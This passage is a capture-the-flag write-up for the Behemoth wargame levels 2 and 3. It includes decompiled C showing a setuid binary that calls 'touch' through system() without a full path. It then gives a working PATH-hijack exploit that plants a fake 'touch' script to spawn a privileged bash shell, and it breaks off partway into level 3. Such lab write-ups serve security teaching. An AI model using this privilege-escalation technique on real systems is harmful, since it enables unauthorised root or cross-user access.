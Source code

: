 ### Disassembly:
```c
char var_8c;
sprintf(&var_8c, "touch %d", getpid());
void var_78;

if ((lstat(var_90, &var_78) & 0xf000) != 0x8000)
{
    unlink(var_90);
    uid_t euid = geteuid();
    setreuid(geteuid(), euid);
    system(&var_8c);
}
```
Disassembling the binary and focussing on the `main()` function, it's clear that it formats a string to build the command `touch {PID}` where the **PID** is the Process ID of the current process (the binary being run) and then runs the command by passing it to the `system()` function.\
This is vulnerable to **PATH Manipulation** due to the full path to the `touch` binary not being used. When it calls `touch` it searches for the first instance of the binary in the **PATH** environment variable.

To exploit this, we can create our own `touch` *binary*, in a directory we have permissions to write to, which performs whatever actions we want and then modify the **PATH** environment variable to point to the directory where our *binary* exists first.

### Exploit:
```bash
behemoth2@behemoth:/tmp/pm$ echo -e '#!/bin/bash\n/bin/bash -p' > touch
behemoth2@behemoth:/tmp/pm$ chmod +x touch
behemoth2@behemoth:/tmp/pm$ export PATH="/tmp/pm:$PATH"
behemoth2@behemoth:/tmp/pm$ /behemoth/behemoth2
behemoth3@behemoth:/tmp/pm$ whoami
behemoth3
```

---
---
## Behemoth3 Solution
**Username:** behemoth3\
**Password:** [REDACTED]

### Disassembly:
Running the binary, it prompts the user to enter a name. Once a value is entered, it will print the string `Welcome, {name}`. The value entered is reflected back.
```bash
behemoth3@behemoth:/behemoth$ ./behemoth3
Identify yourself: shellcodex
Welcome, shellcodex

aaaand goodbye again.
```
